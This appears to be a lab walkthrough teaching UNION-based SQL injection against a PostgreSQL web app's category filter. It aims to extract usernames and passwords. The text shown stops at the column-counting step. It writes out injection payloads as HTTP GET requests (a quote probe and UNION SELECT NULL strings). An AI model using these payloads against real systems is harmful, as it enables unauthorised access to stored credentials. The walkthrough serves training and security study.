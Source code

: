# 🛠️ SQL Injection Walkthrough: UNION-Based Data Extraction  
## 🔍 Step-by-Step Guide to Exploiting a PostgreSQL Backend  

## 🎯 Objective

**To exploit a SQL injection vulnerability in a web application using `UNION SELECT` queries and extract sensitive data (`username`, `password`) from the backend database — even when only one column is visible.**

## 🧪 Lab Overview

You're targeting a vulnerable web app that filters products by category via a URL parameter:

```
GET /filter?category=<INJECT_HERE>
```

The backend uses **PostgreSQL**, and you've determined that:
- Only **2 columns** are returned by the original query.
- Only the **second column** is visible in the output.

This walkthrough will guide you through the full process of identifying, exploiting, and extracting data using **UNION-based SQL injection**.

## 🧭 Step-by-Step Walkthrough

### 🔹 Step 1: Confirm SQL Injection Vulnerability

Start by checking if the input is vulnerable to SQL injection.

```http
GET /filter?category='
```

If this breaks the query or shows an error → ✅ The input is injectable.

### 🔹 Step 2: Determine Number of Columns Returned

Try injecting a `UNION SELECT` with increasing numbers of `NULL`s to find how many columns the query returns.

#### ❌ Try 1 Column:
```http
GET /filter?category='+UNION+SELECT+NULL-- 
```

❌ Fails → Query expects more than 1 column.

#### ✅ Try 2 Columns:
```http
GET /filter?category='+UNION+SELECT+NULL,NULL-- 
```
